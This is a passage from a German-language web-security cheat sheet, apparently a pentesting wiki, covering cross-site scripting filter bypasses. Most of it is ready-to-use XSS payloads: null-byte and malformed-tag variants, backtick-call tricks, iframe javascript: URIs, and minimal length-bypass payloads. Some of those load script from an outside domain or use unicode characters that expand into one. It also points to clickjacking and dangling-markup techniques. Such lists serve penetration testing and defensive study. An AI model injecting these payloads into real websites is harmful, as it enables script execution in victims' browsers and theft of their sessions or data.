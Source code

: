 ```javascript
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">

//Using `` instead of parenthesis
onerror=alert`1`

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```
### Length bypass (kleine XSS)

{% hint style="info" %}
**Weitere kleine XSS für verschiedene Umgebungen** Payload [**finden Sie hier**](https://github.com/terjanq/Tiny-XSS-Payloads) und [**hier**](https://tinyxss.terjanq.me).
{% endhint %}
```html
<!-- Taken from the blog of Jorge Lajara -->
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```
The last one is using 2 unicode characters which expands to 5: telsr\
More of these characters can be found [here](https://www.unicode.org/charts/normalization/).\
To check in which characters are decomposed check [here](https://www.compart.com/en/unicode/U+2121).

### Click XSS - Clickjacking

Wenn Sie zur Ausnutzung der Schwachstelle den **Benutzer dazu bringen müssen, auf einen Link oder ein Formular** mit vorausgefüllten Daten zu klicken, könnten Sie versuchen, [**Clickjacking auszunutzen**](../clickjacking.md#xss-clickjacking) (wenn die Seite anfällig ist).

### Impossible - Dangling Markup

Wenn Sie nur denken, dass **es unmöglich ist, ein HTML-Tag mit einem Attribut zu erstellen, um JS-Code auszuführen**, sollten Sie [**Dangling Markup**](../dangling-markup-html-scriptless-injection/) überprüfen, da Sie die Schwachstelle **ausnutzen** könnten, **ohne** **JS**-Code auszuführen.

## Injecting inside HTML tag
